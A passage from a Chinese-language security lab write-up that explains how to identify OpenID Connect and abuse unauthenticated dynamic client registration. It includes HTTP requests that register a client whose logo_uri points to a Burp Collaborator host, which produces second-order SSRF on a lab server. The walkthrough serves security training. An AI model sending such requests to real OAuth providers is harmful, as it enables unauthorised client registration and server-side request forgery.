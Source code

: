  *   * 

    
    
    response_type=id_token tokenresponse_type=id_token code

此时ID令牌和授权码或者访问令牌会同时发送到客户端应用程序

###  **识别OpenID Connect**

最简单的办法是查找强制性的openid范围，即使登录过程可能没有使用OpenID
Connect，但是也要检查OAuth服务是否支持它，可以通过添加openid范围或将响应类型更改为id_token并观察是否会触发报错，最好查看文档以了解有用信息，还可以通过从标准端点/.well-
known/openid-configuration访问配置文件

###  **OpenID Connect漏洞**

未受保护的动态客户端注册OpenID规范概述了允许客户端应用程序向OpenID提供程序注册的标准化方法，如果支持动态客户端注册，则客户端应用程序可以向专用/registration端点发送POST请求，通常配置文件和文档中会提供该端点的名称，在请求正文中，客户端应用程序以JSON格式提交有关自身的关键信息，如经常需要包括列入白名单的重定向URI的数组，还可以提交一系列其他信息，如要公开的端点的名称，应用程序的名称等，burp给出了一个示例

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /openid/register HTTP/1.1Content-Type: application/jsonAccept: application/jsonHost: oauth-authorization-server.comAuthorization: Bearer ab12cd34ef56gh89  
    {  "application_type": "web",  "redirect_uris": [    "https://client-app.com/callback",    "https://client-app.com/callback2"    ],  "client_name": "My Application",  "logo_uri": "https://client-app.com/logo.png",  "token_endpoint_auth_method": "client_secret_basic",  "jwks_uri": "https://client-app.com/my_public_keys.jwks",  "userinfo_encrypted_response_alg": "RSA1_5",  "userinfo_encrypted_response_enc": "A128CBC-HS256",  …}

有些OAuth提供程序允许动态客户端注册而无需任何身份验证，攻击者就可以注册自己的恶意客户端应用程序，里面有些属性可以当做URI来控制，可能导致二阶SSRF漏洞配套靶场：通过Open
ID动态客户端注册的SSRF首先进入OpenID的配置文件/.well-known/openid-
configuration![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210917080345.png)从配置文件我们可以看到很多端点以及支持的授权类型和可使用的签名算法，然后我们得知注册客户端的端点是/reg，于是我们以这样的示例构造请求包

  *   *   *   *   *   *   *   *   * 

    
    
    POST /reg HTTP/1.1Host: YOUR-LAB-OAUTH-SERVER.web-security-academy.netContent-Type: application/json  
    {  "redirect_uris" : [    "https://example.com"  ]}

发送以后，发现不需要进行验证就注册成功了，并将相关信息反馈在了响应中，包括我们注册成功以后的客户端ID，经过对所有触发的HTTP请求的观察发现，在请求用户是否同意授权的时候会利用img标签加载一个图片资源![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210917080347.png)我们在HTTP
History会发现加载图片资源的请求，然后给我们可以通过logo_uri指定其加载图片资源的来源，于是我们对/reg请求包进行修改，示例如下

  *   *   *   *   *   *   *   *   *   * 

    
    
    POST /reg HTTP/1.1Host: YOUR-LAB-OAUTH-SERVER.web-security-academy.netContent-Type: application/json  
    {  "redirect_uris" : [    "https://example.com"  ],  "logo_uri" : "https://YOUR-COLLABORATOR-ID.burpcollaborator.net"}
